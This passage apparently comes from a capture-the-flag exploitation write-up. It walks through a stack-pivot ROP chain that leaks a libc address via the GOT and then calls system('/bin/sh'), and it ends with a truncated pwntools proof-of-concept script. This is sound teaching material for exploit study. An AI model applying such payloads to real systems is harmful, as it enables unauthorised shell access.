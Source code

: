 ```
payload = b"/bin/sh\x00" +p64(0)+ p64(0x404050) + p64(0x401205)
payload += p64(0) + p64(pop_rbp) + p64(0x404010+0x20)
payload += p64(pop_rcx)*70
payload += p64(0x401211)
payload += b"/bin/sh\x00"
```
Explanantion:
- we read `b"/bin/sh\x00" + p64(1) + p64(0x404050) + p64(0x401205)` for later use.
- `p64(0) + p64(pop_rbp) + p64(0x404010+0x20)` sets `rbp` to `0x404010+0x20` = `0x404030` 
- `p64(pop_rcx)*70` is the trick here; it decreases `rsp` for the reason we discussed; 70 is guessed with trial and error.
- `0x401211` is called which prints the contents of `0x404030 - 0x20` = `0x404010` which's `print@got`. 
- since, `rbp = 0x404030`, `leave;ret` then pivots again the stack to point to the first line `b"/bin/sh\x00" +p64(0)+ (HERE)p64(0x404050) + p64(0x401205)`.
- at last, `rbp` is set to `0x404050` and execution returns to `0x401205` which reads data into `0x404050 - 0x20`
Threfore, we get a libc address leak, and resume by reading data (on retombe sur nos pattes).


## Stage 3: Shell execution
Calculating base and system addresses: `print`'s offest is known to be `0x87be0`, therefore
```
libc.address = u64(print_address) - 0x87be0`
system_address = libc.symbols.get("system")
```
last stage payload:
```
payload = b"/bin/sh\x00" + b"A"*24
payload += p64(0xdeadbeef) + p64(system_address)
```
this reads `"/bin/sh\x00"`  into `0x404030` and prints it, therefore `rdi` points to "/bin/sh\x00".\
Lastly, `rbp` is set to `0xdeadbeef` since it doesn't matter, and then execution returns to `system("/bin/sh")`

### Proof of Concept

```
from pwn import *
from pwnlib.term.key import get

context.arch = "amd64"
context.os = "linux"

elf = ELF(vuln_path)
libc = elf.libc

p = process("./vuln")
# p = remote("smiley.cat", 42447)

get_puts = 0x401205
read_got = 0x403FE8
put_rbp_0x20 = 0x401211
leave_ret = 0x401226
pop_rbp =    0x401181
pop_rcx = 0x40117e
bss = 0x404020

payload = b"a"*32 + p64(0x404040) + p64(get_puts)
p.sendline(payload)
        
payload = b"/bin/sh\x00" + p64(1) + p64(0x404050) + p64(get_puts)
payload += p64(0)
```